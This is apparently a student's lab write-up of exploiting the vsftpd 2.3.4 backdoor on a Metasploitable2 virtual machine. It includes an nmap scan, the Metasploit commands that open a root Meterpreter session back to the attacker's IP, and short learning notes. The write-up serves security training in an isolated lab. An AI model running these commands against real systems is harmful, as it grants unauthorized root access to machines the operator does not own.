



# Lab 01: Metasploitable2 - vsftpd 2.3.4 Backdoor Exploit

**Date:** 2026-08-07
**Environment:** Parrot OS (attacker) + Metasploitable2 (VMware, Host-only network)

## Objective

Practice basic recon -> exploit -> access workflow against a deliberately
vulnerable target, using a known backdoor vulnerability.

## Recon

Ran an nmap version scan against the target:

```
nmap -sV 172.16.159.128
```

Key finding: port 21 (FTP) running `vsftpd 2.3.4`.

Full scan showed 22 open ports total, including telnet, old Samba, old
MySQL/PostgreSQL, and an already-open "Metasploitable root shell" on
port 1524 - clearly a deliberately vulnerable box.



## Vulnerability

vsftpd 2.3.4 (2011 release) had a backdoor maliciously inserted into
the source code by a third party before it was caught. If triggered
with a specific crafted login, it opens a root shell on port 6200.
This is a planted backdoor, not a coding bug/CVE in the traditional sense.

## Exploit

Opened msfconsole on Parrot OS, then ran the following commands one
at a time inside the msfconsole prompt:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.16.159.128
set LHOST 172.16.159.1
run
```

Note: LHOST had to be the vmnet1 (Host-only) interface IP on the
attacker machine, not the physical eno1 IP - vmnet1 is what can
actually route to the target's isolated Host-only network.



## Result

Meterpreter session opened immediately, landed as root (uid=0) -
no privilege escalation needed since the backdoor grants root directly.

Verified with:

```
getuid
sysinfo
```



## What I learned

- `-sV` in nmap = version detection, identifies exact software/version on open ports
- LHOST = attacker IP, RHOST = target IP (Metasploit convention)
- Host-only vmnet vs NAT vmnet = isolated network vs internet-routable network
- `/etc/passwd` structure: username:password_placeholder:UID:GID:comment:home:shell
- UID 0 = root, regardless of username
- A "backdoor" (intentionally planted) is different from a normal exploited bug/CVE
